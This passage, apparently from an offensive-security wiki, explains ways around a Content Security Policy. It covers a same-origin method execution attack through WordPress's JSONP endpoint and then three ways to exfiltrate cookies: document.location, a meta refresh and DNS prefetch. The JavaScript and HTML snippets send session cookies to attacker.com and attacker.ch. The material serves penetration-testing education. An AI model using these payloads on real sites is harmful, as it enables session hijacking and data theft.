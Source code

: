 {% content-ref url="../xss-cross-site-scripting/some-same-origin-method-execution.md" %}
[some-same-origin-method-execution.md](../xss-cross-site-scripting/some-same-origin-method-execution.md)
{% endcontent-ref %}

Moreover, **wordpress** has a **JSONP** endpoint in `/wp-json/wp/v2/users/1?_jsonp=data` that will **reflect** the **data** sent in the output (with the limitation of only letter, numbers and dots).

An attacker can abuse that endpoint to **generate a SOME attack** against WordPress and **embed** it inside `<script s`rc=`/wp-json/wp/v2/users/1?_jsonp=some_attack></script>` note that this **script** will be **loaded** because it's **allowed by 'self'**. Moreover, and because WordPress is installed, an attacker might abuse the **SOME attack** through the **vulnerable** **callback** endpoint that **bypasses the CSP** to give more privileges to a user, install a new plugin...\
For more information about how to perform this attack check [https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)

## CSP Exfiltration Bypasses

If there is a strict CSP that doesn't allow you to **interact with external servers**, there are some things you can always do to exfiltrate the information.

### Location

You could just update the location to send to the attacker's server the secret information:

```javascript
var sessionid = document.cookie.split('=')[1]+"."; 
document.location = "https://attacker.com/?" + sessionid;
```

### Meta tag

You could redirect by injecting a meta tag (this is just a redirect, this won't leak content)

```html
<meta http-equiv="refresh" content="1; http://attacker.com">
```

### DNS Prefetch

To load pages faster, browsers are going to pre-resolve hostnames into IP addresses and cache them for later usage.\
You can indicate a browser to pre-resolve a hostname with: `<link rel="dns-prefetch" href="something.com">`

You could abuse this behaviour to **exfiltrate sensitive information via DNS requests**:

```javascript
var sessionid = document.cookie.split('=')[1]+"."; 
var body = document.getElementsByTagName('body')[0];
body.innerHTML = body.innerHTML + "<link rel=\"dns-prefetch\" href=\"//" + sessionid + "attacker.ch\">";
```

Another way:
